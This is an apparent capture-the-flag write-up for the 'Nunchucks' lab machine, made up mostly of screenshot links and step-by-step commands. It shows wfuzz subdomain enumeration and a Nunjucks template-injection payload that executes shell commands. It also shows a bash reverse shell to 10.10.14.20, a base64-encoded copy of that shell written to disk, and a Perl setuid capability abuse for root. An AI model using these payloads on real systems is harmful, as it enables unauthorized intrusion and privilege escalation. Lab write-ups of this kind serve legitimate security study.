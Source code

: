 1.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3b7b1e08-e98c-4497-9520-1f112bb70c54)

2.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2004824b-ce1f-4e81-b032-03b5694d6474)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d4f64624-14ea-43cd-882b-7cdaaa998424)

3.
Signup:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/85432824-3fef-4900-92b1-8b8eed99f263)

Login:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d2ddddb7-8d36-46b5-96d0-c720828e2f84)

4.
![image](https://github.com/LawsonSchwantz/CTF-Writeups/assets/74954683/2977a9df-af8d-4698-bc24-d9f76fafe823)

5. `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb"`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4f8cd75a-ca63-49c0-8cff-550ce3fb036e)

6. `wfuzz -u https://nunchucks.htb/ -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt  -H "Host: FUZZ.nunchucks.htb" --hh 30587`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/28f5989e-71b7-4257-9394-780f84b122f0)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e60ce229-8654-42f6-bcdc-6797d84481f0)

Website:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/37f1e264-4386-4eeb-bb4e-a72f5faf3b16)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/270df8d4-f4d2-4757-b912-e22fabf99f97)

9.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/10ffb2b8-4c6b-4829-b01f-5e96c6dbb527)

10.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/36edf8ba-8383-4cb2-86db-b08aa8e204f3)

11. [Payload](https://github.com/geeknik/the-nuclei-templates/blob/main/node-nunjucks-ssti.yaml)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('insert any bash command')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f3db7daf-cf4c-4761-a941-849ba8a5cd67)

12. [tool](https://www.revshells.com/)

payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.14.20/777 0>&1"')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bbe97c82-70a3-433d-90cd-2084bedeed2a)

13. `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /home/david/user.txt')\")()}}@gmail.com`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/425014a2-35de-46ff-996e-afb60f374550)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1fab502a-8d7b-44eb-bf45-018bab675c40)

Payload:
`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMC83NzcgMD4mMQo= | base64 -d > /home/david/payload.sh')\")()}}@gmail.com`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0251335b-6203-4b99-b504-b6e2b677ce0a)

Check:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/346a8d55-47e0-4946-b135-c902735d1b7d)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/778f5dd5-384a-4892-909a-78ab6fd35ec1)

15. `{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash ~/payload.sh')\")()}}@gmail.com`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/6d8354fd-304e-4a1e-81d2-759249212bc6)

Host:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/8818ce95-fbbf-4c19-b656-1a28599721e5)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/42fc94ce-8421-4285-a47c-32ae4b69d5a0)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/303fe797-ef49-4dcb-81ae-785804ae8d70)

18. [web](https://gtfobins.github.io/gtfobins/perl/#capabilities)

Checking perl location:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/09cb1ea2-5587-451a-86b9-0c4ffcc96e24)

Payload:
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9e7e5996-ca7a-46a7-bfa6-c8cccb2feb87)

19.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/f07731f3-52e7-4185-9d6a-b6f9f57229fd)

20. `echo '#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";' > root.pl`
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/05c7b034-7aab-4506-ae20-7a13e9f1a04c)

21.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d65db7ba-066e-434b-9423-40489e487a8a)

22.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/dc418505-95f3-4189-9d53-02b84c690307)






















